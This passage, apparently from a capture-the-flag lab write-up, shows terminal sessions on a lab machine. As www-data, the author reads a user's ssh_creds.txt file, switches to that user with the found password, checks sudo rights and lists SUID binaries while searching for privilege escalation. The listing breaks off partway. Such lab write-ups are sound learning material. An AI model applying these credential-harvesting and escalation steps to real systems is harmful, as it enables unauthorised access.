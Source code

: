 ```bash
total 16
drwxr-xr-x  4 root     root     4096 Jun 30  2023 .
drwxr-xr-x 20 root     root     4096 Feb 21 06:06 ..
drwxr-xr-x  8 ubuntu   ubuntu   4096 Jul  6  2023 ubuntu
drwxr-xr-x  3 zeamkish zeamkish 4096 Jul  6  2023 zeamkish
www-data@ip-10-10-230-123:/home$ cd zeamkish
cd zeamkish
www-data@ip-10-10-230-123:/home/zeamkish$ ls -al
ls -al
total 36
drwxr-xr-x 3 zeamkish zeamkish 4096 Jul  6  2023 .
drwxr-xr-x 4 root     root     4096 Jun 30  2023 ..
-rw-rw-r-- 1 zeamkish zeamkish    5 Jul  6  2023 .bash_history
-rw-r--r-- 1 zeamkish zeamkish  220 Jun  8  2023 .bash_logout
-rw-r--r-- 1 zeamkish zeamkish 3771 Jun  8  2023 .bashrc
drwx------ 2 zeamkish zeamkish 4096 Jun  8  2023 .cache
-rw-r--r-- 1 zeamkish zeamkish  807 Jun  8  2023 .profile
-rw-r----- 1 zeamkish zeamkish   27 Jun  8  2023 flag.txt
-rw-rw-r-- 1 root     zeamkish   34 Jun 11  2023 ssh_creds.txt
www-data@ip-10-10-230-123:/home/zeamkish$ cat ssh_creds.txt
cat ssh_creds.txt
SSH CREDS
zeamkish
<PASSWORD>
www-data@ip-10-10-230-123:/home/zeamkish$ 
```
{: .nolineno}
{: .nolineno}
I switched the user now ->
```bash
www-data@ip-10-10-230-123:/home/zeamkish$ su zeamkish
su zeamkish
Password: <PASSWORD>

zeamkish@ip-10-10-230-123:~$ whoami 
whoami
zeamkish
zeamkish@ip-10-10-230-123:~$ id
id
uid=1001(zeamkish) gid=1001(zeamkish) groups=1001(zeamkish)
zeamkish@ip-10-10-230-123:~$ sudo -l  
sudo -l
[sudo] password for zeamkish: <PASSWORD>

Sorry, user zeamkish may not run sudo on ip-10-10-230-123.
zeamkish@ip-10-10-230-123:~$ find / -perm -u=s -type f 2>/find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/snap/core20/1974/usr/bin/chfn
/snap/core20/1974/usr/bin/chsh
/snap/core20/1974/usr/bin/gpasswd
/snap/core20/1974/usr/bin/mount
/snap/core20/1974/usr/bin/newgrp
/snap/core20/1974/usr/bin/passwd
/snap/core20/1974/usr/bin/su
/snap/core20/1974/usr/bin/sudo
/snap/core20/1974/usr/bin/umount
/snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1974/usr/lib/openssh/ssh-keysign
/snap/core20/1950/usr/bin/chfn
/snap/core20/1950/usr/bin/chsh
/snap/core20/1950/usr/bin/gpasswd
/snap/core20/1950/usr/bin/mount
/snap/core20/1950/usr/bin/newgrp
```